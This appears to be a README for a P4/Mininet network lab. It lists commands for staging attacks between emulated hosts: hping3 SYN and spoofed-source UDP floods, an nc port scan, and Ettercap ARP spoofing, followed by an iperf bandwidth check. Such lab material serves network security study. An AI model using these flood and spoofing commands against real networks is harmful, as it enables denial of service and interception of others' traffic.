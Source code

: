 ## New2
How to run
1. Start the topology: sudo p4run
2. How to conduct TCP SYN Attack- Process 1:
    a. <br /> mininet> xterm h3
    b. <br />In host 3: hping3 -c 1000 -d 120 -S -w  64 -p 21 --flood 10.0.1.1
3. How to conduct TCP SYN Attack-Process 2:
    a. <br />mininet> xterm h3
    b. <br />In host 3: python -m SimpleHTTPServer 80
    c. <br />mininet> h1 nc -vnz -w 1 10.0.3.1 80-85 
4. How to conduct UDP Flood Attack:
    d. <br />mininet> xterm h3
    e. <br />In host 3: hping3 -q -n -a 10.0.1.1 -udp -s 53 --keep -p 68 --flood 10.0.1.1
5. How to conduct ARP spoofing Attack: 
<br />Install Ettercap
    a.<br /> sudo apt-get install ettercap-graphical
    b.<br /> Type -y on instruction
    c.<br /> mininet> xterm h1 h2 h3 h3
    d.<br /> In node 1: ifconfig
    e.<br /> In node 1: arp
    f.<br /> In node 2: ifconfig
    g.<br /> In node 2: arp
    h.<br /> In node 3: tcpdump -i h3 eth0 -n host 10.0.1.1
    i.<br /> mininet> h1 ping h2
    j.<br /> In node 3: ettercap-g
<br />In Ettercap application:
    1.<br /> Options->Promisc Mode
    2.<br /> Sniff -> Unified Snipping
    3.<br /> Select h3-eth0 in the Ettercap input dialog box.
    4.<br /> Hosts -> Scan for hosts
    5.<br /> Hosts -> Hosts List
    6.<br /> Select host with IP address 10.0.1.1 and then click Add to Target 1
    7.<br /> Select host with IP address 10.0.1.2 and then click Add to Target 2
    8.<br /> Mitm -> ARP Spoofing… Select sniff remote connections only in the dialog box
    9.<br /> Now the ARP Spoofing started. Check in h1 node and h2 node: arp -a
<br />How to check bandwidth:
<br />*** Starting CLI:
<br />mininet> iperf h1 h2

